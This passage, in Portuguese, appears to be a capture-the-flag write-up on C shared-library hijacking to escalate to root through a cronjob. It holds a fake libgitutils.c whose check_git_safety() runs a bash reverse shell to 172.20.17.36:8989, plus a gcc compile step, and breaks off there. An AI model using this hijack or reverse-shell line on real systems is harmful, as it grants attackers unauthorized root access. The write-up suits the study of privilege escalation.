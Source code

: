Lendo o [README.md](http://readme.md) podemos ver como que o script foi instalado e um pouco de como ele funciona.

![/assets/chuvinha/Untitled%2023.png](/assets/chuvinha/Untitled%2023.png)

Podemos perceber que o script utliza uma biblioteca compartilhada, poderiamos trocar a biblioteca que ele está usando para uma biblioteca nossa e subscrever  a função que o script usa, no caso "check_git_safety()".

Isto se chama Library Hijacking nesse caso em libs de C.

Pesquisando sobre como criar libs em C cheguei a simples conclusão que só precisamos escrever uma nova função num script ".c" normal e compilar como uma biblioteca.

Então vamos escrever nossa biblioteca falsificada e declarar nossa função:

```cpp
#include <stdlib.h>
void check_git_safety() {
        system("bash -c 'bash -i >& /dev/tcp/172.20.17.36/8989 0>&1'");
}
```

Como pode ver subscrevi a função check_git_safety() para rodar a função system com o comando para nos mandar uma reverse shell.

Ela iria mandar a shell como root já que no [README.md](http://readme.md) percebemos que o script roda como um cronjob de root.

Então na minha máquina vou compilar o script para transformar numa biblioteca compartilhada.

(O nome do script é libgitutils.c)

Vamos compilar:

```bash
gcc libgitutils.c -fpic -c
```

Isso vai gerar um arquivo libgitutils.o 
